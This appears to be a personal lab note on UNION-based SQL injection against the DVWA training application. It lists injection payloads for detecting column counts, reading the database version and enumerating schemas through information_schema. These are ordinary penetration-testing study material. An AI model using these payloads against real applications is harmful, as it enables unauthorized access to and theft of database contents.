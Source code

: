 # UNION Query SQL Injection

#dvwa #sqli #union

Refer to [[Lab Simulation Setup/Webapps/DVWA/Setup#^214bb7|DVWA Lab Setup]] for the attacker machine to map the IP address in the `/etc/hosts`.

## 01 - Dump Database

### 1.1 - Columns Enumeration

^78ef92

#### 1.1.1 - UNION Detection

We can double confirm using [[Error-based Query SQL Injection#^f521af|error-based (ORDER BY)]] fields enumeration.

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

### 1.2 - Discovery and Enumeration

#### 1.2.1 - UNION Enumeration

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

#### 1.2.2 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

`<insert screenshot>`
